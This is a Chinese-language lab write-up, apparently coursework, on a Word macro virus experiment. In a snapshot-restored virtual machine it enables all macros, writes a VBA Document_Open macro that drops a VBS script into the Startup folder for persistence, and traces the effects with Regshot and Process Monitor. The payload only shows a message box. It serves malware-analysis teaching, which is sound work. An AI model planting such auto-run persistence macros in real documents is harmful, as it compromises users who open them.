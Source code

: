 
#### **实验二：WORD宏类病毒实验**

本实验创建了一个带有恶意宏的Word文档，模拟宏病毒的感染过程。

**操作流程与现象记录:**

1.  **恢复快照**: 再次确保虚拟机处于“干净的”快照状态。
2.  **配置Word安全设置**:
    * 打开Microsoft Word。
    * 进入“文件” > “选项” > “信任中心” > “信任中心设置”。
    * 在“宏设置”中，选择了 **“启用所有宏（不推荐；可能会运行有潜在危险的代码）”**。
    * **注意**: 此步骤仅为实验目的，在真实环境中具有极高风险。
3.  **拍摄“染毒前”快照**: 使用 **Regshot** 再次拍摄并保存 `before_macro.txt` 快照。
4.  **创建宏病毒文档**:
    * 在Word中，按 `Alt + F11` 打开VBA编辑器。
    * 在左侧的工程浏览器中，双击 `ThisDocument`。
    * 在代码窗口中输入以下VBA代码：

    ```vba
    ' Simple Macro Virus simulation
    Private Sub Document_Open()
        ' 1. Display a message
        MsgBox "You opened a macro-infected document!", vbCritical, "Macro Alert"

        ' 2. Drop a file to the user's startup folder for persistence
        On Error Resume Next
        Dim fso As Object
        Dim startupPath As String
        Dim filePath As String

        Set fso = CreateObject("Scripting.FileSystemObject")
        ' Get the path to the Startup folder
        startupPath = CreateObject("WScript.Shell").SpecialFolders("Startup")
        filePath = startupPath & "\harmless_script.vbs"

        ' Create a simple VBS file in the startup folder
        Dim file As Object
        Set file = fso.CreateTextFile(filePath, True)
        file.WriteLine "MsgBox ""Hello from startup!"""
        file.Close

        Set fso = Nothing
    End Sub
    ```

5.  **保存文档**:
    * 将文档保存为 **启用宏的Word文档 (`.docm`)**，命名为 `report.docm`。
    * 关闭Word。
6.  **启动实时监控**:
    * 打开 **Process Monitor (ProcMon)**。
    * 将过滤器 `Process Name` 设置为 `WINWORD.EXE`。
    * 开始捕获事件。
7.  **执行宏病毒**:
    * 双击打开 `report.docm` 文件。
    * 文档打开时，宏自动执行。观察到一个警告消息框弹出。
8.  **拍摄“染毒后”快照**:
    * 使用 **Regshot** 拍摄 `after_macro.txt` 快照，并生成对比报告。
9.  **结果分析**:
    * **Regshot报告**:
        * 查看文件系统变化部分。观察到一个名为 `harmless_script.vbs` 的文件被创建在用户的启动（Startup）文件夹中，具体路径为 `C:\Users\[YourUserName]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`。这意味着每次用户登录时，此脚本都将被执行，从而实现了持久化。
    * **Process Monitor**:
        * 停止捕获事件后，分析 `WINWORD.EXE` 进程的活动。观察到其执行了 `CreateFile` 和 `WriteFile` 操作，路径指向了上述启动（Startup）文件夹中的 `harmless_script.vbs` 文件。这揭示了Office程序是如何被利用来在系统上放置并执行恶意文件的。
10. **清理环境**: 恢复到“干净的”快照。

---